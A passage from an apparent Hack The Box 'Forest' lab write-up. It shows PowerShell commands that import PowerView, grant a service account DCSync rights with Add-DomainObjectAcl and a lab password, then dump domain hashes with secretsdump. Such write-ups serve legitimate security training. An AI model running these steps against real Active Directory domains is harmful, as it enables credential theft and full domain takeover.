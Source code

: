 we then upload `PowerView.ps1` (https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) to the victim machine and import it using `import-module .\PowerView.ps1`. This enables access to all the powershell cmdlets included within that module.

### Checking the help for the `Add-DomainObjectAcl` command

we view the help page and usage examples of the abuse command `Add-DomainObjectAcl` using `Get-Help Add-DomainObjectAcl -Examples`

![abuse-command-help](/assets/Forest/abuse-command-help.jpg)

we notice that we need to create a Powershell `Credential Object` and run the command to give our user `svc-alfresco` `DCSync` rights over `htb.local`. It should be as below:

```powershell
$SecPassword = ConvertTo-SecureString 's3rvice'-AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('HTB.local\svc-alfresco', $SecPassword)
Add-DomainObjectAcl -TargetIdentity "dc=htb,dc=local" -PrincipalIdentity 'HTB.local\svc-alfresco' -Rights DCSync -Credential $Cred -Verbose
```

This takes a little while to run but we eventually have permission to dump hashes.

### And down the hashes go...

We use impacket's `secretsdump.py` and voala! :D

![hashes_dumped](/assets/Forest/hashes_dumped.jpg)
